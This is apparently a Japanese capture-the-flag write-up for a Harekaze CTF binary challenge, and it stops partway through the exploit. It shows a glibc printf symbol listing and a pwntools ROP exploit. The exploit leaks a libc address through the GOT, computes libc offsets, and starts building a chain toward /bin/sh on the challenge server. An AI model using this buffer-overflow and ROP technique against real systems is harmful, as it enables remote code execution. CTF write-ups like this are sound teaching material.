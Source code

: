 ```bash-statement
00000000000558b0 <snprintf@@GLIBC_2.2.5>:
0000000000055940 <_IO_sprintf@@GLIBC_2.2.5>:
00000000000559d0 <__asprintf@@GLIBC_2.2.5>:
0000000000055a60 <dprintf@@GLIBC_2.2.5>:
0000000000058940 <vfwprintf@@GLIBC_2.2.5>:
0000000000070160 <_IO_vsprintf@@GLIBC_2.2.5>:
0000000000071420 <fwprintf@@GLIBC_2.2.5>:
00000000000714b0 <swprintf@@GLIBC_2.2.5>:
0000000000071540 <vwprintf@@GLIBC_2.2.5>:
0000000000071560 <wprintf@@GLIBC_2.2.5>:
00000000000717e0 <vswprintf@@GLIBC_2.2.5>:
00000000000766d0 <vasprintf@@GLIBC_2.2.5>:
0000000000076830 <vdprintf@@GLIBC_2.2.5>:
00000000000769d0 <__vsnprintf@@GLIBC_2.2.5>:
0000000000076bd0 <obstack_vprintf@@GLIBC_2.2.5>:
0000000000076d50 <obstack_printf@@GLIBC_2.2.5>:
```

Harekaze CTFが終わってから、あ、start_mainのGOTアドレスが安定じゃん、と思いついて解いたらあっさりflagゲット。
やってしまった...

### 最終プログラム

```
import sys
import pwn

io = pwn.remote('problem.harekaze.com', 20005)

addr_libc_start_main = 0x0000000000020740
addr_libc_execve = 0x00000000000cc770
addr_libc_binsh = 0x18cd57
addr_start_main_got = 0x601028
addr_start = 0x400540
addr_printf_plt = 0x00000000004004f0
addr_welcome = 0x400770

rop_pop_rdi = 0x0000000000400733
rop_pop_rsi = 0x0000000000400731

s = b"A" * 40
s += pwn.p64(rop_pop_rdi)
s += pwn.p64(addr_welcome)
s += pwn.p64(rop_pop_rsi)
s += pwn.p64(addr_start_main_got)
s += pwn.p64(0x0)
s += pwn.p64(addr_printf_plt)
s += pwn.p64(addr_start)

io.sendline(s)
buf = io.recvline()
print(buf)
buf = io.recvline()
print(buf)

addr_start_main= buf[32:38] + b"\x00\x00"
addr_start_main = pwn.u64(addr_start_main)
addr_offset = addr_start_main - addr_libc_start_main
addr_execve = addr_offset + addr_libc_execve
addr_binsh = addr_offset + addr_libc_binsh

s = b"A" * 40
s += pwn.p64(rop_pop_rdi)
s += pwn.p64(addr_binsh)
```